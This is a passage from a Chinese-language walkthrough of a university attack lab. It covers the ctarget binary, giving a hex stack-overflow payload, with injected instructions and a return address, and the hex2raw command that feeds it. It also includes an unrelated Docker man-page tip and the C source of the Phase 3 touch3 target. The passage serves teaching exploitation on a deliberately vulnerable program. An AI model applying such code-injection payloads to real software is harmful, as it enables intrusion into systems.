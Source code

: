 将上述结果保存至 p1_l2.txt，执行

```
./hex2raw < p1_l2.txt | /.ctarget
```

完成！

当然，你也可以指定跳转的位置，例如跳转至 栈顶 + 0x8，那么注入代码为

```
00 00 00 00 00 00 00 00
48 C7 C7 FA 97 B9 59 68
EC 17 40 00 C3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
80 DC 61 55
```

### Phase 3


> tips :
>
> 1. 在[Ubuntu](http://blog.fpliu.com/it/os/Unix-like/GNU-Linux/distribution/Ubuntu)、[CentOS](http://blog.fpliu.com/it/os/Unix-like/GNU-Linux/distribution/CentOS)、[Fedora](http://blog.fpliu.com/it/os/Unix-like/GNU-Linux/distribution/Fedora)等 的[Docker](http://blog.fpliu.com/it/software/Docker)基础镜像中使用`man`命令查看使用手册的时候，会出现`No manual entry for xx`的提示，即便是安装了`Linux Man Pages`也还是于是无补， 这是因为[Docker](http://blog.fpliu.com/it/software/Docker)基础镜像的制作者为了减小镜像的体积，故意修改了包管理器的逻辑， 使得安装`Linux Man Pages`的时候没有安装真正的手册文件，不同的系统实现方法不一样，但是思路都是一样的， 就是在使用包管理器安装软件的时候把`man`目录中的内容删除掉。
>
> 2. **int strncmp(const char \*str1, const char \*str2, size_t n)** 把 **str1** 和 **str2** 进行比较，最多比较前 **n** 个字节。
>
> 3. **int sprintf(char \*str, const char \*format, ...)** 发送格式化输出到 **str** 所指向的字符串


Phase 3 的入口是函数 ``hexmatch``，目标同样是让我们通过代码注入的方式进入 ``touch3`` 并抵达正确的分支。

```c
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
